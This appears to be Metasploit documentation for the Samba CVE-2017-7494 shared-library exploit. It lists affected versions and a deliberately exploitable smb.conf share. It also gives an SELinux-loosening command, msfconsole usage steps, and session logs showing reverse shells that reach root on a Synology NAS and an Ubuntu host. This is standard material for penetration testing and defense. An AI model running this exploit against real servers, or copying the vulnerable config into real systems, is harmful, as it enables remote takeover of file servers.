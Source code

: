 ## Vulnerable Application

This module exploits Samba from versions 3.5.0-4.4.14, 4.5.10, and 4.6.4 by loading a malicious shared library.
Samba's download archives are [here](https://download.samba.org/pub/samba/stable/).  There are some requirements
for this exploit to be successful:

1. Valid credentials
2. Writeable folder in an accessible share
3. Server-side path of the writeable folder

However, in some cases anonymous access with common filesystem locations can be used to automate exploitation.

A vulnerable Samba config may have a share similar to the following in `smb.conf`.  This is a setup for 'easy' exploitation
where no SMB options are required to be set:

```
[exploitable]
comment = CVE-2017-7494
path = /tmp
writable = yes
browseable = yes
guest ok = yes
```

Verified on:

1. Synology DS412+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
2. Synology DS412+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
3. Synology DS1512+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
4. Synology DS1512+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
5. Synology DS2415+ DSM 6.1-15047 (Samba 4.3.11)
6. Ubuntu 14.04.5 x64 (Samba 4.3.9)
7. Ubuntu 15.04 (Samba 4.1.13)
8. Ubuntu 16.04 (Samba 4.3.11)
   * 1:4.3.11+dfsg-0ubuntu0.16.04.3 and older are vulnerable, fixed in [2:4.3.11+dfsg-0ubuntu0.16.04.7](https://launchpad.net/ubuntu/+source/samba/2:4.3.11+dfsg-0ubuntu0.16.04.7)
9. Fedora 24 (Samba 4.4.13)

Currently not working against:

1. QNAP NAS Samba 4.4.9 on armv71
2. WD MyClous NAS Samba 4.0.0rc5 armv71

### SELinux

Fedora (and possibly Redhat) are not exploitable in their default installation.  SELinux must be adjusted to allow nmbd to use net_admin, and smbd to exec the payload.

```
echo -ne "type=AVC msg=audit(1495745298.086:334): avc:  denied  { execstack } for  pid=2365 comm="smbd" scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:system_r:smbd_t:s0 tclass=process permissive=0\ntype=AVC msg=audit(1495717997.099:267): avc:  denied  { net_admin } for  pid=959 comm="nmbd" capability=12  scontext=system_u:system_r:nmbd_t:s0 tcontext=system_u:system_r:nmbd_t:s0 tclass=capability permissive=0\ntype=AVC msg=audit(1495745002.690:308): avc:  denied  { execmem } for  pid=1830 comm="smbd" scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:system_r:smbd_t:s0 tclass=process permissive=0\ntype=AVC msg=audit(1495745183.319:331): avc:  denied  { execute } for  pid=2313 comm="smbd" path="/tmp/ucFtDpZI.so" dev="tmpfs" ino=27436 scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:object_r:smbd_tmp_t:s0 tclass=file permissive=0" | audit2allow -M cve-2017-7494; semodule -X 300 -i cve-2017-7494.pp
```

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/linux/samba/is_known_pipename```
3. Do: ```set rhost [ip]```
4. Do: ```set target [target #]```
5. Do: ```exploit```

## Options

### SMB_SHARE_NAME

  The name of the SMB share containing a writeable directory.  Shares are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

### SMB_SHARE_BASE

  The remote filesystem path correlating with the SMB share name.  This value is preferred, but other values are
  brute forced including:

1. /volume1
2. /volume2
3. /volume3
4. /shared
5. /mnt
6. /mnt/usb
7. /media
8. /mnt/media
9. /var/samba
10. /tmp/home/home/shared

### SMB_FOLDER

  The directory to use within the writeable SMB share.  Writable directories are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

## Scenarios

### Synology DS412+ w/ INTEL Atom D2700 on DSM 6.1.1-15101 Update 2

```
msf exploit(is_known_pipename) > exploit

[*] Started reverse TCP handler on 1.2.3.117:4444
[*] 1.2.3.119:445 - Using location \\1.2.3.119\ESX\ for the path
[*] 1.2.3.119:445 - Payload is stored in //1.2.3.119/ESX/ as eePUbtdw.so
[*] 1.2.3.119:445 - Trying location /volume1/eePUbtdw.so...
[-] 1.2.3.119:445 - Probe: /volume1/eePUbtdw.so: The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
[*] 1.2.3.119:445 - Trying location /volume1/ESX/eePUbtdw.so...
[*] Command shell session 1 opened (1.2.3.117:4444 -> 1.2.3.119:34366) at 2017-05-24 21:12:07 -0400

id
uid=0(root) gid=0(root) groups=0(root),100(users)
uname -a
Linux synologyNAS 3.10.102 #15101 SMP Fri May 5 12:01:38 CST 2017 x86_64 GNU/Linux synology_cedarview_412+
```

### Ubuntu 16.04

```
msf exploit(is_known_pipename) > exploit

[*] Started reverse TCP handler on 192.168.0.3:4444
[*] 192.168.0.3:445 - Using location \\192.168.0.3\yarp\h for the path
[*] 192.168.0.3:445 - Payload is stored in //192.168.0.3/yarp/h as GTithXJz.so
[*] 192.168.0.3:445 - Trying location /tmp/yarp/h/GTithXJz.so...
[*] Command shell session 6 opened (192.168.0.3:4444 -> 192.168.0.3:45076) at 2017-05-24 19:41:40 -0500

id
uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)
```
